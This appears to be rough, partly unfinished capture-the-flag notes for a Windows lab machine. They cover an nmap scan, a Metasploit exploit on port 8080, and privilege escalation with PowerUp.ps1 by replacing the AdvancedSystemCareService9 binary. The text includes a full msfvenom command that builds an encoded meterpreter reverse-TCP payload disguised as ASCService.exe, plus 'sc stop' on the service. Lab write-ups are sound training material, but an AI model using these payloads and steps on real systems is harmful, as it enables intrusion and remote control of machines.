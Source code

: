 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.107.148 LPORT=4445 -e x86/shikata_ga_nai -f exe > ASCService.exe

We start the challenge with an nmap scan and notice an HTTP server on port 8080 is runing [fill in]

using metasploit we find an exploit and run it, setting our RHOST to the host ip and the RPORT to port 8080

we find the user flag in desktop and now we need to find root flag

can not change process to spoolsv.exe due to missing permissions

we use a powershell script [PowerUp.ps1] to assist us in exploiting this

we load up powershell and list Invoces-GetChecks and find a service that is executable as our user

now we upload an exploit using msfvenom to reverse tcp into the system

attempt to upload the service using upload in meterpreter but the service can not be uploaded since the service is still running

we get back onto power shell and turn off the service using
`sc stop AdvancedSystemCareService9`

now we open another metasploit sessions that will be reverse tcping into the windows system

